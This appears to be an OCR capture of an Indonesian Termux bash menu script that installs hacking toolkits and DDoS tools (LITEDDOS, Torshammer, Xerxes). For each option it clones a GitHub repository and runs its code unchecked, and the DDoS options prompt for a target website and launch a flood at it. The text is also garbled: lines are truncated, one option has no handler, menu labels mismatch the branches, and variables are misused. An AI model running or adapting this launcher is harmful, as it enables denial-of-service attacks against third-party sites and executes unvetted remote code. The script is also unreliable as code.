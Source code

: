
#Jangan Recode
#Pahami
#Pelajari

blue='\033[34;1m'
green='\033[32;1m'
purple='\033[35;1m'
cyan='\033[36;1m'
red='\033[31;1m'
white='\033[37;1m'
yellow='\033[33;1m'

clear
figlet Anonymous | lolcat
cd $HOME
echo -n $cyan"Anda memakai tools ini pada tanggal "; date >
echo "\033[36;1m[]========================================>
echo "\033[37;1m[] AUTHOR :  Mr.Zack                      >
echo "\033[32;1m[] TEAM   : Cyber Indonsia                >
echo "\033[36;1m[]========================================>
echo $cyan"[+]============================================>
echo $cyab"                      SELAMAT DATANG"|lolcat
echo $cyan"[+]============================================>
echo  "___________________________________________________>
echo
echo $cyan"1) Tools TUANBADUTv4 Rusak"
echo
echo $cyan"2) Tools TUANBADUTv4"
echo
echo $white"3) Tools BAJINGANv5"
echo
echo $blue"4) Tools BAJINGANv6"
echo
echo $purple"5) Hammer buat ddos"
echo
echo $red"6) Lite -Ddos buat ddos"
echo
echo $yellow"7) Xerxes buat ddos"
echo
echo $green"8) Torhammer buat ddos"
echo "____________________________________________________>
echo
echo "\033[32;1m╭──=>>[PILIH NOMORNYA]"
read -p "╰──────────────────────────> : " bos

if [ $bos = 1 ] || [ $bos = 1 ]
then
clear
figlet -f slant "Loading . . " | lolcat
pkg install python python2 vim figlet curl
pkg install php
pip2 install lolcat
pjg install git
git clone https://github.com/TUANB4DUT/TOOLSINSTALLERv1
cd TOOLSINSTALLERv1
chmod +x Tuanb4dut.sh
sh Tuanb4dut.sh
mv TOOLSINSTALLERv1 module
fi

if [ $bos = 2 ] || [ $bos = 2 ]
then
clear
figlet -f slant "Loading . . " | lolcat                   >
pkg install php                                           >
pkg install git
git clone https://github.com/TUANB4DUT/TOOLSINSTALLERv4
cd TOOLSINSTALLERv4
ls
chmod 777 TUANB4DUT..sh
./TUANB4DUT..sh
fi

if [ $bos = 3 ] || [ $bos = 3 ]
then
clear
figlet -f slant "Loading . . " | lolcat
pkg install git
pkg insatll toilet
pkg install figlet
pip2 install lolcat
git clone https://github.com/DarknessCyberTeam/B4J1N64Nv5
cd B4J1N64Nv5
sh B4J1N64N.sh
fi

if [ $bos = 4 ] || [ $bos = 4 ]
then
clear
figlet -f slant "Loading . . " | lolcat                   >
git clone https://github.com/DarknessCyberTeam/BAJINGANv6
ls
cd BAJINGANv6
sh BAJINGAN.sh
fi

if [ $bos = 6 ] || [ $bos = 6 ]
then
clear
figlet -f slant "Loading . . " | lolcat
apt install git
git clone https://github.com/4L13199/LITEDDOS
mv LITEDDOS $HOME
cd $HOME/LITEDDOS
read -p "MasukanTarget:" target
python2 LITEDDOS.py target 80 100
fi

if [ $bos = 7 ] || [ $bos = 7 ]
then
clear
figlet -f slant "Loading . . " | lolcat
clear
apt update
apt install git
apt install tor
git clone https://github.com/dotfighter/torshammer.git
mv torshammer $HOME
cd $HOME/torshammer
read -p "Masukan Target==>:" target
python2 torshammer.py -T -t target
fi

if [ $bos = 8 ] || [ $bos = 8 ]
then
clear
figlet -f slant "Loading . . " | lolcat
apt install git                                           >
git clone https://github.com/zanyarjamal/xerxes
mv xerxes $HOME
cd $HOME/xerxes
clang xerxes.c -o xerxes
clear
read -p "[masukanWebsiteTarget]>" target
./xerxes target 80
fi

if [ $bos = 00 ] || [ $bos = 00 ]
then
clear                                                     >
fi
if [ $bos = * ] || [ $bos = * ]
then
echo "ERROR NOT FOUND"|lolcat
fi

exit
